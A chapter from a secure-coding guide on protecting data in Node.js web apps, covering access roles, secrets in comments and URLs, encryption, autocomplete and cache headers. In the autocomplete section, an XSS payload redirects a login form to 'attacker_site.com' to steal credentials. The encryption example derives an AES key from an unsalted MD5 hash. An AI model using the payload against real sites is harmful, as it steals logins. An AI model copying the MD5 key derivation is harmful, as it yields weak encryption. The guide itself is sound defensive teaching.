 Data Protection
===============

Nowadays, one of the most important things in security is data protection. You
don't want something like:

![All your data are belong to us](files/cB52MA.jpeg)

In a nutshell, data from your web application needs to be protected,. Therefore,
in this section we will take a look at the different ways to secure it.

One of the first things you should take care of is creating and implementing the
right privileges for each user and restrict them to strictly the functions they
really need.

For example, consider a simple online store with the following user roles:

* _Sales user_: Permission only to view catalog
* _Marketing user_: Allowed to check statistics
* _Developer_: Allowed to modify pages and web application options

Also, in the system configuration (aka webserver), you should define the right
permissions.

The main thing is to define the right role for each user - web or system.

Role separation and access controls are further discussed in the [Access
Control][1] section.

## Remove Sensitive Information

Temporary and cache files containing sensitive information should be removed
as soon as they're not needed. If you still need some of them, move them to
protected areas and/or encrypt them. This includes all authentication
verification data, even on the server-side.

Last but not least, when using encryption, make sure you are using well vetted
algorithms. More information in the [Cryptographic Practices][2] section.

### Comments

Sometimes developers leave comments like _To-do lists_ in the source-code, and
sometimes, in the worst case scenario, developers may leave credentials.

```javascript
// Secret API endpoint - /api/mytoken?callback=myToken
console.log("Just a random code")
```

In the above example, the developer has an endpoint in a comment which, if not
well protected, could be used by a malicious user.

### URL

Passing sensitive information using the HTTP GET method leaves the web
application vulnerable because:

1. Data could be intercepted if not using HTTPS by MITM attacks
2. Browser history stores the user's information. If the URL has
   session IDs, pins or tokens that don't expire (or have low entropy),
   they can be stolen.

```JavaScript
const http = require('http');

var options = {
  host: 'www.mycompany.com',
  path: '/api/mytoken?api_key=000s3cr3t000'
};

callback = function(response) {
  var str = '';

  //another chunk of data has been recieved, so append it to `str`
  response.on('data', function (chunk) {
    str += chunk;
  });

  //the whole response has been recieved, so we just print it out here
  response.on('end', function () {
    console.log(str);
  });
}

http.request(options, callback).end();
```

If your web application tries to get information from a third-party website
using your ```api_key```, it could be stolen if anyone is listening within your
network. This is due to the lack of HTTPS and the parameters being passed
through GET.

Also, if your web application has links to the example site:

```
http://mycompany.com/api/mytoken?api_key=000s3cr3t000
```

It will be stored in your browser history so, again, it can be stolen.

Solutions should always use HTTPS. Furthermore, try to pass the parameters using
the POST method and, if possible, use one time only session IDs or token.

### Information Is Power

You should always remove application and system documentation on the production
environment. Some documents could disclose versions or even functions that could
be used to attack your web application (e.g. Readme, Changelog, etc.)

As a developer, you should allow the user to remove sensitive information that
is no longer used. Imagine if the user has an expired credit card on their
account and would like to remove it - your web application should allow it.

All information that is no longer needed must be deleted from the application.

It is also critical to ensure that no server-side source code can be downloaded
or accessed by a user.

#### Encryption Is the Key

Every bit of highly sensitive information should be encrypted in your web
application.
See the [Cryptographic Practices][2] section for more information regarding
algorithms and their usage.

Getting different permissions for accessing the code and limiting the access
for your source-code is the best approach.

Do not store passwords, connection strings (see example for how to secure
database connection strings on [Database Security][3] section) or other
sensitive information in clear text or in any non-cryptographically secure
manner on the client side.

This includes embedding in insecure formats (e.g. Adobe Flash or compiled code).

A small example of `aes-256-cbc` encryption in Node.js using the
`crypto` module:

```javascript
'use strict';

const crypto = require('crypto');

// get password's md5 hash
let password = 'test';
let password_hash = crypto.createHash('md5').update(password, 'utf-8').digest('hex').toUpperCase();
console.log('key=', password_hash); // 098F6BCD4621D373CADE4E832627B4F6

// our data to encrypt
let data = 'Sample text to encrypt';
console.log('data=', data);

// generate random initialization vector
var iv = crypto.randomBytes(16)
console.log('iv=', iv);

// encrypt data
let cipher = crypto.createCipheriv('aes-256-cbc', password_hash, iv);
let encryptedData = cipher.update(data, 'utf8', 'hex') + cipher.final('hex');
console.log('encrypted data=', encryptedData.toUpperCase());
```

Output will be:

```
key= 098F6BCD4621D373CADE4E832627B4F6
data= Sample text to encrypt
iv= <Buffer d7 98 9a 54 a0 e6 bc 45 f3 7f bc 33 c2 0f 7d 00>
encrypted data= 83640168A86A9F2BC0BEEEDEB39756E195EF3D0758A3262F012697C3D718B039
```

## Disable What You Don't Need

Another simple and efficient way to mitigate attack vectors is to guarantee that
any unnecessary applications or services are disabled in your systems.

### Autocomplete

According to [Mozilla documentation][4], you can disable `autocomplete` in the
entire form by using:

```html
<form method="post" action="/form" autocomplete="off">
```

Or in a specific form element:

```html
<input type="text" id="cc" name="cc" autocomplete="off">
```

This is especially useful for disabling `autocomplete` on login forms. Imagine a
case where a Cross-Site Scripting vector is present in the login page.
If the malicious user creates a payload like:

```JavaScript
window.setTimeout(function() {
  document.forms[0].action = 'http://attacker_site.com';
  document.forms[0].submit();
}
), 10000);
```

It will send the autocomplete form fields to the `attacker_site.com`.

### Cache

Cache control in pages that contain sensitive information should be disabled.

This can be achieved by setting the corresponding header flags.   
The following snippet shows how to do this in an `express` application:

```JavaScript
//Express application
[...]

app.use(function (req,res,next){
  res.header('Cache-Control', 'private, no-cache, no-store, must-revalidate')
  res.header('Pragma', 'no-cache')
  next()
});

[...]
```

The `no-cache` value tells the browser to revalidate with the server before
using any cached response. It does not tell the browser to _not cache_.

On the other hand, `no-store` value is really - _Hey stop caching!_ - and must
not store any part of the request or response.

The `Pragma` header is there to support HTTP/1.0 requests.

[1]: ./access-control/README.md
[2]: ./cryptographic-practices/README.md
[3]: ./database-security/README.md
[4]: https://developer.mozilla.org/en-US/docs/Web/Security/Securing_your_site/Turning_off_form_autocompletion
